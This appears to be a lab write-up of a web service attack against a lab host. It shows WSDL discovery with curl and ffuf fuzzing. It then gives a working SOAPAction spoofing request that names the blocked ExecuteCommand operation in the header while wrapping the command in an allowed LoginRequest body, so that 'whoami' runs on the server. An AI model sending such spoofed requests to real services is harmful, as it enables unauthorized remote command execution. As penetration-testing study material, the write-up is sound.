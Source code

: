 ___

WSDL stands for Web Service Description Language. WSDL is an XML-based file exposed by web services that informs clients of the provided services/methods, including where they reside and the method-calling convention.

```bash
curl http://10.129.202.133:3002/wsdl
```

The response is empty. 

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u  http://10.129.202.133:3002/wsdl -fs 0 
`````

```bash
curl http://10.129.202.133:3002/wsdl?wsdl
```

# SOAPAction Spoofing

```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

```bash
curl -X POST http://10.129.202.133:3002/wsdl \
  -H "Content-Type: text/xml; charset=utf-8" \
  -H "SOAPAction: \"ExecuteCommand\"" \
  -d '<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:ExecuteCommandRequest>
         <tem:cmd>your_command_here</tem:cmd>
      </tem:ExecuteCommandRequest>
   </soapenv:Body>
</soapenv:Envelope>'
```

error mentioning _This function is only allowed in internal networks_

- We specify _LoginRequest_ in `<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
- We specify the parameters of _ExecuteCommand_ because we want to have the SOAP service execute a `whoami` command.
- We specify the blocked operation (_ExecuteCommand_) in the SOAPAction header

```bash
curl -X POST http://10.129.202.133:3002/wsdl \
  -H "Content-Type: text/xml; charset=utf-8" \
  -H "SOAPAction: \"ExecuteCommand\"" \
  -d '<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:LoginRequest>
         <cmd>whoami</cmd>
      </tem:LoginRequest>
   </soapenv:Body>
</soapenv:Envelope>'
```


